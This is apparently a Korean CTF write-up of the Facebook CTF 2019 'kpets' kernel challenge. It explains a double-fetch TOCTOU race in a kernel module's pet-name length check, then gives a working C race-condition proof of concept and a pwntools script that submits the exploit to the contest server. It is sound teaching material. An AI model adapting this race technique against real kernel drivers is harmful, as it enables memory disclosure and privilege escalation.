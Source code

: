 ```yaml
---
title: Facebook CTF 2019 - kpets
date: 2019-06-05 15:00:53
categories:
- Kernel Exploit
- CTF write up
tags:
- Race condition
- TOCTOU
---
```


# Facebook CTF 2019 - kpets

```sh
 __  __     ______   ______     ______   ______    
/\ \/ /    /\  == \ /\  ___\   /\__  _\ /\  ___\   
\ \  _"-.  \ \  _-/ \ \  __\   \/_/\ \/ \ \___  \  
 \ \_\ \_\  \ \_\    \ \_____\    \ \_\  \/\_____\ 
  \/_/\/_/   \/_/     \/_____/     \/_/   \/_____/ 
  
kpets: loading out-of-tree module taints kernel.
kpets: initializing stuff
kpets: welcome to Kernel Pets Simulator!                                              
```



```c
  copy_from_user(&nlen, &in->nlen, 4LL);
  if ( nlen > 0x20 )
  {
    printk("kpets: invalid pet name len: 0x%02x\n");
    return v11;
  }
```

write 함수를 보면 20번째 줄 쯤에 name length를 받아오는데 이게 0x20보다 크면 return 시킨다.



```c
...
    copy_from_user(&idx, nnlen, 4LL);
 ...
```

근데 77번째 줄에서 또 name length를 받아온다. ??????? 여기서 toctou가 발생한다.



```c
    do
    {
      --max;
      v9 = (v9 - 108);
      if ( max == -1 )
      {
        for ( i = first_slot->name; ; t = i[-1].t )
        {
          if ( t )
          {
            printk("Next pet\n");
            type = i[-1].t;
            switch ( type )
            {
              case 0xC1:
                printk("Type: cat\n");
                break;
              case 0xC2:
                printk("Type: sheep\n");
                break;
              case 0xC0:
                printk("Type: dog\n");
                break;
              default:
                printk("Type: unknown\n");
                break;
            }
            printk("Name: %s\n");
            printk("Description: %s\n");
          }
          --v4;
          --i;
          if ( v4 == -1 )
            break;
        }
        return 0LL;
      }
    }
    while ( v9->type != 0xAAu );
```

또 read함수에서 type 이 0xaa 가 아니면 printk로 pet의 정보를 출력해주는데 문제는 return 을 한다.



```c
  if ( a3 <= 41 )
  {
    if ( copy_to_user(v7, flag) )
    {
      result = -14LL;
    }
    else
    {
      *v6 += v17;
      result = v17;
    }
  }
```

return 밑에 flag 받아오는 코드가 있기 때문에 출력하는 구문으로 가면 안된다.



```c
  if ( (v12 + 0x40) > 1u && v12 != 0xC2u )
  {
    printk("kpets: invalid pet type: 0x%02hhx\n");
  }
```

근데 write 함수에서 type이 0xc2가 아니면 유효한 type이 아니라면서 저장을 안해준다. 로직이 너무 이상하다ㅠ

race condition으로 name length를 크게 만들어 다음 type을 0xaa로 만든 뒤 flag를 가져오도록 코드를 짜면된다.



## poc.c

```c
// gcc -o poc poc.c -static -pthread
#include <stdio.h>
#include <stdlib.h>
#include <fcntl.h>
#include <unistd.h>
#include <string.h>
#include <pthread.h>

typedef struct pet{

	char type;
	int nlen;
	char name[0x20];
	int dlen;
	char desc[0x40];
	char fake;

} Pet;

int fd;
Pet pet1;
pthread_t race;

void race_con(){
    
	while(1){
		pet1.nlen = 0x80;		
	}
    
}

int main(){

	char flag[0x100];
	int i = 0;

	memset(&flag,0,0x100);

	pet1.type = 0xc2;
	pet1.nlen = 0x20;
	memset(&pet1.name,0x77,0x20);
	pet1.dlen = 0x40;
	memset(&pet1.desc,0x61,0x40);
	pet1.fake = 0xaa;

	fd = open("/dev/kpets",O_RDWR);

	pthread_create(&race,0,&race_con,0);

	while(i<100){
        
		i++;
		pet1.nlen = 0x20;
		write(fd, &pet1, 0x70);
		read(fd, &flag, 0x100);
		printf("try %d:: %s\n",i,flag);
	
	}

}

```



## pow.py

```python
from pwn import *
import md5

w = remote("134.209.40.42",1337)

alpha = string.lowercase + string.uppercase + string.digits
url = "my_file_url"

def rand_string(length):
    return ''.join([random.choice(alpha) for _ in range(length)])

def solve(p):
    while True:
        att = rand_string(5)
        md = md5.new(att).digest()
        if p == md[:3]:
            print('Solution: {}'.format(att))
            return att

w.recvline()
w.recvuntil("== ")
poww = w.recv(3)

w.sendline(solve(poww))
w.sendline("Y")
w.sendline(url)
w.sendline("/bin/exploit")
w.interactive()

```


```sh
/ # ./init 
 __  __     ______   ______     ______   ______    
/\ \/ /    /\  == \ /\  ___\   /\__  _\ /\  ___\   
\ \  _"-.  \ \  _-/ \ \  __\   \/_/\ \/ \ \___  \  
 \ \_\ \_\  \ \_\    \ \_____\    \ \_\  \/\_____\ 
  \/_/\/_/   \/_/     \/_____/     \/_/   \/_____/ 
                                                   
/ $ ./poc
try 1:: 
try 2:: fb{***********************************}

try 3:: fb{***********************************}
...
```

대회 끝나고 푼거라 init 직접 실행시켜줘야 한다..ㅎㅎ 서버에서 실행하려면 pow.py 실행하면 된다.

poc 코드를 실행시키면 예쁘게 flag가 나온다.



대회 중에 푼 asciishop, babylist, otpserver, overfloat, r4nk 문제 exploit 코드는 <https://github.com/wally0813/write-up/tree/master/ctf/2019/facebook> 에 올려 놨다.

